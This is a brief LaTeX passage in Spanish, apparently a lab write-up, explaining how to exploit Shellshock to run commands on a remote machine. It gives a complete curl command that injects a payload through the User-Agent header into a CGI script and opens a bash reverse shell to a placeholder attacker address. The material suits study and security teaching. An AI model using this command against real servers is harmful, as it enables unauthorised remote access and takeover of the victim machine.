 \documentclass[10pt,a4paper]{article}
\begin{document}
El problema de este ataque recae en conseguir ejecutar el comando en la máquina remota cuando no se tiene acceso físico a la misma. Para ello se utiliza el ataque \emph{Shellshock}, mediante el cual se pueden ejecutar comandos de forma remota.
Para poder realizar el ataque, se utilizará el siguiente comando desde la máquina atacante, mediante el cual se conseguirá establecer un \emph{reverse shell} en la máquina indicada.\\
\texttt{curl -v -A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; /bin/bash -i > /dev/tcp/\_{}IP\_{}MAQUINA\_{}ATACANTE/9090 0<\&1 2>\&1;" http://\_{}IP\_{}MAQUINA\_{}VICTIMA/cgi-bin/myprog.cgi}
\end{document}
